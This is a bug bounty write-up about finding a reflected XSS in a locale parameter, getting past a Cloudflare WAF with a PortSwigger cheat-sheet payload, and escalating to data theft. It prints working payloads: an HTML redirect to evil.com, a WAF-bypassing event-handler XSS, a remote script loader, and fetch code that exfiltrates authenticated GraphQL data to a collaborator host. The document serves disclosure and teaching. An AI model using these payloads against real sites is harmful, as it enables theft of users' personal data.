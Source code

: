 # Reflected XSS + WAF Bypass

Found a reflected XSS on a paid program, managed to bypass the WAF using PortSwigger's list of payloads. Eventually, demonstrated higher impact by showing that this endpoint did not have any CSP, which allowed me to load scripts into a user's browser to interact with other endpoints to exfiltrate a victim's data.

## Discovery

I was initially interested in how this company was registering accounts, proxying requests and looking at how accounts are created. I noticed that there were requests going to `company.com/locale?locale=en`.

I decided to change the parameter to `locale=evil`. To my surprise, my input was reflected.

![](../../../.gitbook/assets/reflected-xss-waf-image.png)

I decided to test some HTML payloads to see if it was rendered. I first tried using `meta` tags to see if redirection occurs:

```html
<meta http-equiv="refresh" content="0;url=https://evil.com/">
```

The final link was `company.com/locale?locale=HTML_PAYLOAD`. When visited, I was redirected to `evil.com`. This confirmed that HTML Injection was possible, and I was also able to inject other payloads:

```html
<a href="https://evil.com">Click me for money!</a>
```

![](../../../.gitbook/assets/reflected-xss-waf-image-1.png)

## Escalation to XSS

Trying to achieve XSS was the next step after HTML Injection. Using `<script>alert(1)</script>` and `<img src=x onerror=alert(1)>` resulted in 403s being returned due to the Cloudflare WAF. I knew that using a WAF as the final defence was not enough, because attackers could get around it.

The same thing applies for Content Security Policies (CSP) - if your CSP was the only thing stopping XSS payloads from working, it would still count as a valid finding. Check the browser console when testing for XSS!

Hence, I tried single payload possible from PortSwigger's XSS Cheat Sheet before trying to obfuscate my payload to see if it was blocking specific tags or event handlers.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

I used Burp Intruder to do so, and eventually found one payload that was not blocked:

{% code overflow="wrap" %}

```html
<address oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>
```

{% endcode %}

![](../../../.gitbook/assets/reflected-xss-waf-image-2.png)

## Increasing Impact

This particular endpoint required users to be logged in before accessing, and **did not have any CSP**. Since `alert(1)` worked, the next step was to escalate it to an Account Takeover or perform other authenticated actions. The cookies had `HttpOnly` enabled, and I did not find any other endpoint that reflected cookie contents on the page that allowed for cookie stealing.

My initial idea was to change `alert(1)` to `fetch`. This sent requests to other endpoints, capturing data to be exfiltrated to my Burp Collaborator. This did not work because the payload was too long, and also certain characters were blocked by the WAF.

Eventually, I decided to host the script elsewhere using sites like `webhook.site` or `ssrf.cvssadvisor.com`. The XSS payload was modified to make the browser fetch and execute the remote script:

{% code overflow="wrap" %}

```html
<address oncontentvisibilityautostatechange="let s=document.createElement('script');s.src='PAYLOAD_WEBSITE_HERE';document.head.appendChild(s)" style="display:block;content-visibility:auto">
```

{% endcode %}

The above code worked because there was no CSP for this endpoint. This was the code hosted remotely (code has been heavily redacted):

```js
fetch('https://company.com/api/graphql', {
    method: 'POST',
    credentials: 'include',
    body: '{"query":"query User { REDACTED }'
})
.then(r => r.text())
.then(d => {
    new Image().src = 'https://burp-collaborator/data?response=' + btoa(d);
    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
})
.catch(e => {
    new Image().src = 'https://burp-collaborator/error?msg=' + btoa(e.toString());

    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
});
```

Since this endpoint required authentication, using the `credentials: 'include'` feature of `fetch` allowed for authenticated calls to be made. GraphQL was used by this company, and queries were sent to retrieve a user's personal data and send it to my BurpSuite Collaborator server. Afterwards, the user would be redirected to `company.com`.

## Conclusion

Thanks to the high impact of this XSS demonstrated, I was awarded the highest bounty for a P3 issue.